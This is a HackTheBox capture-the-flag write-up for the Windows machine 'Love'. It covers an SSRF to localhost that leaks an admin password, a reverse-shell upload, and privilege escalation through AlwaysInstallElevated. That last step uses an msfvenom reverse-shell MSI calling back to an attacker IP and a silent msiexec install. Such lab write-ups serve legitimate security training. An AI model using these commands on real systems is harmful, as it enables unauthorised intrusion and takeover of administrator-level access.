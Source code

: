 ```yaml
---
title: "HackTheBox - Love"
author: Nasrallah
description: ""
date: 2023-03-29 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, ssrf, metasploit]
img_path: /assets/img/hackthebox/machines/love
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Love](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

![](0.png)

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.239                                                                                                                      [56/66]
Host is up (0.32s latency).                                                                                                                                   
Not shown: 993 closed tcp ports (reset)                                   
PORT     STATE SERVICE      VERSION                                            
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags:                                                           
|   /:                                                                         
|     PHPSESSID:                                                               
|_      httponly flag not set                                                  
|_http-title: Voting System using PHP                                          
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27     
135/tcp  open  msrpc        Microsoft Windows RPC                         
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn                 
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16                                   
|_Not valid after:  2022-01-18T14:00:16                                   
|_http-title: 403 Forbidden                                                    
|_ssl-date: TLS randomness does not represent time                        
| tls-alpn:                                                                    
|_  http/1.1                                                                   
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27                                                                                         
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?                                                          
| fingerprint-strings:                                                         
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, HTTPOptions, Help, Kerberos, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SMBProgNeg, SS
LSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|_    Host '10.10.17.90' is not allowed to connect to this MariaDB server
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27

Host script results:
| smb2-time: 
|   date: 2023-03-24T12:39:17
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-03-24T05:39:14-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h41m32s, deviation: 4h02m30s, median: 21m32s
```

We have an Apache http web server on port 80, SSL on 443, SMB on port 445, mysql on 3306 and another Apache web server on port 5000

The ssl certificate reveals the hostname `staging.love.htb`, so let's add that to /etc/hosts with `love.htb`.

### Web

Let's check `love.htb`.

![](1.png)

We have a voting system, nothing interesting.

Let's go to `staging.love.htb`

![](2.png)

Here we have a secure file scanner with a demo page, let's leave it for now.

Let's check the web page on port 5000.

![](3.png)

We can't access the page.

Back to `staging.love.htb`, let's go to the demo page.

![](4.png)

Here we can enter the url for a file to scan.

Since we can't access the page on port 5000, let's submit `http://127.0.0.1:5000` and see what happens.

![](5.png)

We got admin's password.

Back to `love.htb` we find an admin page at `/admin`.

![](6.png)

We login as admin and the password we got.

![](7.png)

## **Foothold**

Going tot `Voters` tab, we see we can upload images, let's instead upload a reverse shell.

![](8.png)

![](9.png)

We got a shell.

## **Privilege Escalation**

### Metasploit

After upgrading to a meterpreter session, we run exploit suggester.

![](10.png)

Let's use `exploit/windows/local/always_install_elevated`

![](11.png)

We got System

### Manual

We run `winpeas` and find the following results.

![](12.png)

We find that `AlwaysInstallElevated` is set to 1 this means that we can install `.msi` files as `NT AUTHORITY\SYSTEM`.

First let's create an `msi` file using `msfvenom`.

```terminal
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.17.90 LPORT=9002 -f msi -o hack.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes 
Saved as: hack.msi
```

Now we upload the file and execute using the following command:

```bash
msiexec /quiet /qn /i hack.msi
```

![](13.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
